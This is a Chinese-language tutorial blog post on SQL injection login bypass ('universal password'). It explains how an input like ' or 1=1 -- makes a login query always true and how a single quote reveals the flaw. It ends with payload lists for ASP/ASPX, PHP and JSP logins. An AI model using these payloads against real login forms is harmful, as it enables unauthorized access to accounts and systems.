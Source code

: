 ```yaml
---
layout: post
tags: SQL注入 渗透测试
title: "SQL注入（二）"
category: SQL注入
---
```


## OR漏洞简述

该漏洞又称万能密码，效果是通过构造一个恒为真的语句来绕过用户名密码检测，不通过密码即可登录进去

## 漏洞原理

由于程序对用户输入没有进行过滤，我们可以通过构造恒为真的语句来控制查询。
例如在我们输入用户名为 `admin` 密码为 `123` 时，SQL查询语句为
```
SELECT * FROM admin WHERE Name='admin' and passWord='123'
```
而我们通过构造语句在用户名处输入 `'or 1=1 --` 密码为任意值如 `111`此时查询语句变为
```
SELECT * FROM admin WHERE Name=''or 1=1 --' and passWord='111'
```
此时的效果是用户名为null，而后面加入了一个恒为真的语句 `1=1` 此时用户名部分是为真的。`--`表示注释掉后面所有的内容，因此在 `--` 后面的内容都失效了，密码不会进行判断。
原本程序设定应该是当这条SQL查询语句查询到用户名密码均正确时返回真，返回结果为真时登陆进界面。此时由于构造了一个为真的语句，我们便可以绕过用户名密码进行登陆。

##判断方法##

在输入框输入单引号进行登陆，若有报错说明没有对单引号进行过滤，存在此漏洞

##不同类型程序的万能密码##

应该注意的是不同类型的数据库程序所使用的语法不同，以下内容转自[chengker](http://chengkers.lofter.com/post/14c64b_379726)的博客

###asp aspx万能密码###

* `"or "a"="a`
* `')or('a'='a`
* `or 1=1--`
* `'or 1=1--`
* `a'or' 1=1--`
* `"or 1=1--`
* `'or'a'='a`
* `"or"="a'='a`
* `'or''='`
* `'or'='or'`
* `1 or '1'='1'=1`
* `1 or '1'='1' or 1=1`
* `'OR 1=1%00`
* `"or 1=1%00`
* `'xor`
* `用户名 ' UNION Select 1,1,1 FROM admin Where ''=' （替换表名admin） 密码 1`
* `..admin' or 'a'='a 密码随便`

###PHP万能密码###

* `'or 1=1/*`
* `User: something`
* `Pass: ' or '1'='1`

###jsp 万能密码###

* `1'or'1'='1`
* `admin' or 1=1/*`